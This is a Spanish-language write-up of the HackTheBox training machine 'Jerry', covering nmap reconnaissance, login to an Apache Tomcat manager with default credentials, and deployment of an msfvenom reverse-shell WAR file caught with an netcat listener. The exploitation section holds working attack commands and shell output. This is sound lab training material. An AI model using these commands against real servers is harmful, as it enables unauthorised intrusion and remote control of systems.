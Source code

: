 ```yaml
---
title: "Jerry - HackTheBox"
date: 2024-08-18 00:00:00 +0800
categories: [Writeups,HTB]
tags: [eJPT]
image: images/Jerry.png 
---
```


# Reconocimiento

El primer paso en cualquier evaluación de seguridad o prueba de penetración es el reconocimiento.

En este caso, comencé con un reconocimiento activo utilizando el comando `ping` para determinar si la máquina objetivo, en este caso, la IP `10.129.136.9`, estaba activa y podía responder a las solicitudes de red.

```bash
ping -c 1 10.129.136.9
PING 10.129.136.9 (10.129.136.9) 56(84) bytes of data.
64 bytes from 10.129.136.9: icmp_seq=1 ttl=127 time=83.7 ms

--- 10.129.136.9 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 83.738/83.738/83.738/0.000 ms
```

# Escaneo

Después de confirmar que la máquina objetivo estaba activa, mi siguiente paso fue realizar un escaneo de puertos para identificar los servicios que están escuchando en la máquina. 

Para ello, utilicé Nmap, una herramienta poderosa que uso para el reconocimiento y la enumeración de puertos.

```bash
sudo nmap -sS --min-rate 5000 -p- --open 10.129.136.9 -oN allPorts.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 11:42 CEST
Nmap scan report for 10.129.136.9
Host is up (0.29s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 28.22 seconds

```

# Enumeración

Tras identificar que el puerto 8080 estaba abierto y ejecutando un servicio HTTP, decidí profundizar en la investigación del servicio específico que estaba corriendo en ese puerto.

Utilicé Nmap con opciones adicionales que permiten obtener más información sobre el servicio y su versión.

```bash
sudo nmap -p 8080 -sCV 10.129.136.9 -oN services.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 12:04 CEST
Nmap scan report for 10.129.136.9
Host is up (0.058s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.79 seconds

```

# Exploración del servicio web

Después de identificar que el puerto `8080` estaba abierto y ejecutando Apache Tomcat, procedí a visitar la URL directamente en el navegador para explorar la interfaz web disponible.

![ApacheTomcat](images/Jerry1.png)

A continuación, decidí probar algunas de las rutas comunes en Apache Tomcat para identificar posibles accesos adicionales o vulnerabilidades dentro del servidor.

![AccesoApacheTomcat](images/Jerry2.png)

Al intentar iniciar sesión, probé las credenciales comunes admin:admin, pero el intento fue rechazado. Sin embargo, el mensaje de error resultante proporcionó una pista valiosa, sugiriendo que probara con el usuario tomcat y la contraseña s3cret, lo que podría ayudarnos a conseguir las claves de acceso correctas.

![AccesoApacheTomcat](images/Jerry3.png)

Al introducir estas credenciales, logré acceder exitosamente a la interfaz de administración de Apache Tomcat.

![PanelApacheTomcat](images/Jerry4.png)

Ahora, con acceso al administrador de Tomcat, tengo la capacidad de gestionar aplicaciones web desplegadas en el servidor, lo que me permite explorar posibles vulnerabilidades y vectores de ataque adicionales.

# Explotación

Después de acceder a la interfaz de administración de Apache Tomcat y confirmar la posibilidad de subir archivos, mi siguiente paso fue preparar una aplicación maliciosa que, al ser desplegada y ejecutada, me diera acceso al sistema con una consola interactiva.

Utilicé msfvenom, una herramienta poderosa para generar payloads, para crear un archivo .war que contiene un payload que, al ser ejecutado, establecerá una conexión de reverse shell con mi máquina atacante.

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f war -o shell.war
```
![Shell.war](images/Jerry6.png)

Para capturar la conexión de reverse shell desde la máquina objetivo, configuré un listener en mi máquina atacante. En lugar de usar netcat solo, utilicé rlwrap para mejorar la experiencia de la shell, ya que rlwrap permite utilizar funciones avanzadas como el historial de comandos y la edición en línea.

```shell
rlwrap nc -nlvp 443
```

Con el listener configurado en mi máquina atacante usando rlwrap y netcat, el siguiente paso fue ejecutar el archivo malicioso que subí al servidor Apache Tomcat. Este archivo, diseñado para establecer una reverse shell, me proporcionaría acceso al sistema objetivo.

```shell
rlwrap nc -nlvp 443              
listening on [any] 443 ...
connect to [10.10.14.51] from (UNKNOWN) [10.129.136.9] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

Con el listener configurado y en espera, y después de ejecutar el archivo malicioso en el servidor Apache Tomcat, obtuve acceso exitoso a la máquina objetivo. La conexión de reverse shell se estableció correctamente, y ahora tengo control sobre el sistema.

Con el acceso exitoso a la máquina objetivo mediante la reverse shell, el siguiente paso es buscar las flags, que generalmente están ubicadas en directorios específicos o son archivos de texto que indican el éxito en la explotación de la máquina.

![Jerry](images/Jerry5.png)








